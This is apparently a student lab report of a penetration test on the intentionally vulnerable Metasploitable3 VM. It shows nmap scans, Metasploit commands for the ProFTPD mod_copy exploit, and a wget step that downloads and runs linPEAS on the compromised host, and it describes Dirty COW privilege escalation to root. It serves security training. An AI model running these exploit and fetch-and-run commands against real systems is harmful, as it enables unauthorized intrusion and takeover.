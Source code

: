 # 🧪 Metasploitable3 Penetration Test – Full Lab Report

## 📘 Introduction

This lab simulates a real-world penetration test against the vulnerable VM Metasploitable3 using Kali Linux as the attacking machine. The goal of this lab is to highlight the vulnerabilities of an outdated system and emphasize the importance of keeping machines patched. Through a series of steps including reconnaissance, exploitation, and privilege escalation, we demonstrate how attackers can compromise unpatched systems — documenting each phase with detailed screenshots.

## 🛠️ Lab Setup

| Machine       | OS                    | IP Address       |
|---------------|------------------------|------------------|
| Attacker      | Kali Linux             | 172.28.128.100   |
| Target        | Metasploitable3 Ubuntu | 172.28.128.3     |

---

## 1️⃣ Scanning the Network

We use `nmap` on Kali Linux to detect live hosts in our subnet.

```bash
nmap -sn 172.28.128.0/24
```

![Scanning the Network](screenshots/1.Scanning_Our_Network.png)

---

## 2️⃣ Scanning the Target Machine

After discovering a potential victim, We perform a detailed scan to identify open ports and services.

```bash
nmap -sS -sV -sC -O -Pn 172.28.128.3
```

![Scanning Target Machine](screenshots/2.Scanning_Target_Machine.png)

---

## 3️⃣ Opening Metasploit

We noticed, among all the results, a FTP vulnerability. We launch the Metasploit Framework:

```bash
msfconsole
```

![Opening Metasploit Console](screenshots/3.Opening_Msfconsole.png)

---

## 4️⃣ Discovering Vulnerabilities

We search for vulnerabilities in the ProFTPD service identified earlier.

```bash
search proftpd
```

![Vulnerability Results](screenshots/4.Vulnerability_Results.png)

---

## 5️⃣ Selecting Exploit and Setting Parameters

We choose `exploit/unix/ftp/proftpd_modcopy_exec` and configure it.

```bash
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOSTS 172.28.128.3
set LHOST 172.28.128.100
set RPORT 21
```

![Setting Exploit Options](screenshots/5.Selecting_The_Exploit_And_Setting_Parameters.png)

---

## 6️⃣ Running the Exploit

We launch the exploit to gain remote code execution.

```bash
run
```

![Running the Exploit](screenshots/6.Running_The_Exploit.png)

---

## 7️⃣ Gathering Information

We enumerate the compromised machine.

```bash
whoami
id
hostname
uname -a
```

![Gathering System Info](screenshots/7.Gathering_Information.png)

---

## 8️⃣ Downloading and Executing linPEAS

We upload and execute linPEAS for local enumeration.

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![Running linPEAS](screenshots/8.Downloading_And_Starting_LinPEAS.png)

---

## 9️⃣ Privilege Escalation Opportunities

We identify Dirty COW as a potential escalation path.

![linPEAS Output](screenshots/9.Looking_At_Machine_Vulnerabilities_For_Privileges_Escalation.png)

---

## 🔟 Attempted Privilege Escalation

We attempt to exploit Dirty COW, and after running the script we could finally gain root privileges.

![Privilege Escalation Attempt](screenshots/10.Exploiting_And_Updating_Root_Privileges.png)

---

With full system control achieved, the attacker now has unlimited potential to manipulate, exfiltrate, or disrupt any aspect of the machine.


## ✅ Conclusion

- ✔️ Target identified and scanned
- ✔️ Exploit executed successfully using Metasploit
- ✔️ Post-exploitation enumeration completed
- ✔️ Privilege escalation attempted using Dirty COW
- ✔️ Root access achieved
